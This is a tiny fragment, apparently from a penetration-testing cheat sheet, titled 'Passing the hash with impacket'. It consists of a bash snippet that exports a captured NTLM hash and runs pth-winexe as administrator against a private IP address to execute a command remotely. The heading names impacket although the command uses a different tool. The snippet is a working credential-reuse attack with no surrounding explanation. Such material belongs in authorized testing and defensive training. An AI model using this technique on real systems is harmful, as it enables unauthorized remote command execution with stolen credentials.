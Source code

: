 ## Passing the hash with impacket

```bash
export SMBHASH=6458e959995a134d79c59b51a1b6bf39
pth-winexe -U administrator% //10.10.10.10 ipconfig
```
